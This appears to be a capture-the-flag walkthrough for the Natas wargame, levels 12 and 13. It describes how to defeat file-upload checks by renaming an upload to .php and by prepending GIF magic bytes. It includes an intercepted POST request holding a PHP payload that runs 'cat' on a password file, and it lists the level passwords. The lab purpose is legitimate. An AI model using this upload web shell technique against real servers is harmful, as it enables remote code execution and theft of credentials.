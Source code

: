 natas12: `YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG`

# Natas 12

There is no checking in the source code that the uploaded file must be a JPEG file, hence we can upload any file that we want to the server. Since the backend is running on PHP, we might as well upload a PHP file to get the content of the file in `/etc/natas_webpass/natas13`. The file we will upload is in the [natas12.php](natas12.php).

However, after uploading the file, the file name got changed to `<some_random_string>.jpg`, which disallows the PHP code from executing. Inspecting further, we can observe that there is a hidden `filename` (which determines the file name uploaded to the server), and it is already determined before any file is chosen. This `filename` is the path of the uploaded file on the web server.

Hence, if we can change the `filename` extension back to `.php`, we can make the PHP code valid and retrieve the flag. Opening the browser from Burp Suite, and then choose the PHP payload file and turn the Burp Suite intercept on, we can see the form data uploaded will be something like

```
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="filename"

j6s2vxhm9i.jpg
------WebKitFormBoundaryEex9eRjYhKzAHvH7
Content-Disposition: form-data; name="uploadedfile"; filename="natas12.php"
Content-Type: application/octet-stream

<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
------WebKitFormBoundaryEex9eRjYhKzAHvH7--
```

We change the `.jpg` filename to `natas12.php`, or any filename with the `.php` extension. Sent the changed POST request to the server, the path to the uploaded `.php` file should appear on the web page. Clicking on the link will lead to the result of executing `.php` file, which is the password of the next level.

natas13: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9`

# Natas 13

Same idea, but this time there is an additional check in `exif_imagetype`, which only reads the first bytes of a file to check its signature (or in other words, check the Magic Number of the file). We hence have to put the magic number of image files to the header of the PHP file. PHP file does not really complain if there is some text before the `php` code portion. 

We can pick `GIF`, it is a valid type for a image. GIF has the magic number, in ASCII of `GIF89a`. Put this before the `php` portion of the code and we should be able to bypass the check.
